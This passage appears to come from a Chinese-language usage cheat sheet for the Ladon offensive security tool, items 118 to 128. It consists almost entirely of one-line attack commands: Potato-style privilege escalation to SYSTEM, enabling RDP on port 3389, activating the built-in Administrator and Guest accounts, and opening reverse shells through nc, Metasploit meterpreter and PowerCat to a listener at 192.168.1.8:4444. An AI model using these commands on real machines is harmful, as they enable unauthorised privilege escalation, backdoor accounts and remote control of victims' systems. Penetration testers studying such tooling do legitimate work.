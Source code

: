 ##### 118 SweetPotato服务用户提权至SYSTEM
```Bash
Ladon SweetPotato cmdline
```

##### 119 EfsPotato Win7-2019提权(服务用户权限提到system)
```Bash
Ladon EfsPotato whoami
```

##### 120 Open3389一键开启3389
```Bash
Ladon Open3389
```

##### 121 激活内置管理员Administrator	
```Bash
Ladon ActiveAdmin
```

##### 122 激活内置用户Guest
```Bash
Ladon ActiveGuest
```

### 反弹Shell

##### 123 反弹TCP NC Shell
```Bash
Ladon ReverseTcp 192.168.1.8 4444 nc
```

##### 124 反弹TCP MSF Shell
```Bash
Ladon ReverseTcp 192.168.1.8 4444 shell
```

##### 125 反弹TCP MSF MET Shell
```Bash
Ladon ReverseTcp 192.168.1.8 4444 meter
```

##### 126 反弹HTTP MSF MET Shell
```Bash
Ladon ReverseHttp 192.168.1.8 4444
```

##### 127 反弹HTTPS MSF MET Shell
```Bash
Ladon ReverseHttps 192.168.1.8 4444
```

##### 128 反弹TCP CMD & PowerShell Shell
```Bash
Ladon PowerCat 192.168.1.8 4444 cmd
Ladon PowerCat 192.168.1.8 4444 psh
```
